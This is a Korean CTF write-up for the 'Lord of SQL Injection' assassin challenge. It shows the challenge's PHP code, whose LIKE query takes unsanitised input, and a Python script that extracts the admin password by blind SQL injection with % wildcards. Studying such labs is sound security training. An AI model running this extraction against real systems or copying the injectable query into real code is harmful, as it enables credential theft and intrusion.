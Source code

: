# Lord of SQL Injection No.15 - assassin

## 문제 출제 의도

LIKE문의 취약점을 이용하여 Blind SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```
* preg_match 에서 '를 필터링해낸다.

* like를 이용하여 pw값을 GET 방식으로 입력하여 admin의 비밀번호를 찾는것이 문제이다.

## 문제 해결 방안
```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = "" # pw 값을 저장할 문자열 변수

for i in range(1,9):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="  # SQL Injection 공격 대상인 URL에서 변경되지 않는 부분이다.
        add_url = "{}%".format(result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=ae1i7c038nndgup1torche1pt7")

        res = urllib.request.urlopen(re)
        res1 = res.read()
        if str(res1).find("Hello admin") != -1: # Hello admin 이라는 문자열이 있는지 확인한다.
            result += chr(j).lower()
            print("Found it!! => " + result)
            break
        elif str(res1).find("Hello guest") != -1: # Hello guest가 Hello admin보다 상위 레코드에 있으면 Hello guest의 앞글자가 Hello admin이 될수 있으므로 검사한다.
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```
* % 와일드 카드 이용 % 와일드 카드의 경우 문자열을 보충해 찾아주는 역할을 한다.

%a 의경우 …a 인 a로 끝나는 문자열을 찾으며 a%의 경우 a로 시작하는 문자열을 찾는다.

* 나머지 설명은 코드에서 했다.

저 코드를 이용할 경우 답인 832edd10가 출력되고 그것을 입력하면 답 ! >_<